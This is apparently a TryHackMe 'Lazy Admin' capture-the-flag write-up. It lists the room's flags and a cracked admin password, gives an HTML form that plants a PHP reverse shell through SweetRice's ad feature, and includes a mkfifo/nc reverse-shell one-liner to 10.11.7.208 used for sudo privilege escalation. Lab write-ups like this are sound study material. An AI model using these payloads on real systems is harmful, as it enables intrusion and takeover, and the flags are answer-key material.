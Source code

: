 # LAZY ADMIN

## BASIC INFO
```
export IP=10.10.73.146

```

> - **What is the user flag?**
>> THM{63e5bce9271952aad1113b6f1ac28a07}

> - **What is the root flag?**
>> THM{6637f41d0177b6f37cb20d775124699f}

Using gobuster found a directory /content. Navigate to that directory to see. So it is sweetrice huh... searchsploit shows some result on sweetrice and one of it mentioned about a mysql backup. Remember seeing it on /content/inc... Looking into the backup file reveals the admin account and password. The password is hashed so using john or just using crackstation will do.
```
42f749ade7f9e195bf475f37a44cafcb
manager:Password123
```

Now we're logged in as admin. Another result from searchsploit shows that there is a RCE vulnerablilities on it. Go to ads and create a new ads named hacked or anything. Then add the following code into it.
```html
<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
<!-- php reverse shell here -->
?>
&lt;/textarea&gt;
</form>
</body>
</html>
```

Then we can access it by navigating to /content/inc/ads/hacked.php
Remember to set up a listener before it.`nc -lnvp <port>`

Now we're in as www-data. Let's run `sudo -l`. It shows that we can run `/usr/bin/perl /home/itguy/backup.pl` as sudo without password. We can read backup.pl but we don't have write access to it... Reading backup.pl shows that it is executing another file in /opt. Navigate to /opt and ew can edit copy.sh which is the file backup.pl is executing. Echo the following command into copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.7.208 9002 >/tmp/f
```

Now set up another listener and run `/usr/bin/perl /home/itguy/backup.pl` and we are root.
